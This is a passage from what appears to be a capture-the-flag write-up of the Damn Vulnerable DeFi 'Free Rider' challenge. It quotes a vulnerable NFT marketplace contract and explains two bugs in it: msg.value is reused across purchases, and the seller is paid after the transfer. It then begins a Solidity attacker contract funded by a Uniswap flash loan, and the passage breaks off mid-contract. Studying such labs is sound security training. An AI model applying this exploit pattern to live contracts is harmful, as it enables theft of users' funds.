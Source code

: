 By reading through the contract code, we can find two severe bugs in the marketplace:
1. The `buyMany()` function is designed to accept ETH only once, yet it allows this single payment to cover all selected NFTs.
2. The `_buyOne()` function pays the NFT owner AFTER the token has been transferred to the buyer, effectively enabling the buyer to acquire it at no cost.

```sol
function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
    for (uint256 i = 0; i < tokenIds.length;) {
        unchecked {
            _buyOne(tokenIds[i]); // <= Buy all the tokenIds[] while only paying for one.
            ++i;
        }
    }
}

function _buyOne(uint256 tokenId) private {
    uint256 priceToPay = offers[tokenId];
    if (priceToPay == 0)
        revert TokenNotOffered(tokenId);

    if (msg.value < priceToPay)
        revert InsufficientPayment();

    --offersCount;

    // transfer from seller to buyer
    DamnValuableNFT _token = token; // cache for gas savings
    _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

    // pay seller using cached token
    payable(_token.ownerOf(tokenId)).sendValue(priceToPay); // <= This line is literally just paying back the buyer what he just spent.

    emit NFTBought(msg.sender, tokenId, priceToPay);
}
```

Our strategy for the attack is straightforward: we only need 15 ETH to mint all the NFTs for free. Initially, we don't possess that much ETH, but fortunately, there's a Uniswap V2 Exchange available, where we can execute a flash loan. Thus, our final exploit would proceed as follows:

```sol
contract FreeRiderAttacker is ReentrancyGuard, IERC721Receiver {

    FreeRiderNFTMarketplace marketplace;
    FreeRiderRecovery recovery;
    IUniswapV2Pair pair;
    address player;

    constructor(address payable addr1, address addr2, address addr3) payable {
        marketplace = FreeRiderNFTMarketplace(addr1);
        recovery = FreeRiderRecovery(addr2);
        pair = IUniswapV2Pair(addr3);
        player = msg.sender;
    }

    function attack() public payable {
        // We loan 15 ether amount of WETH from uniswapv2, then perform the attack in callback function `uniswapV2Call`.
        pair.swap(15 ether, 0, address(this), "0x11");
    }

    // EIP721 requires NFT receive contracts to implement this function for safety.
```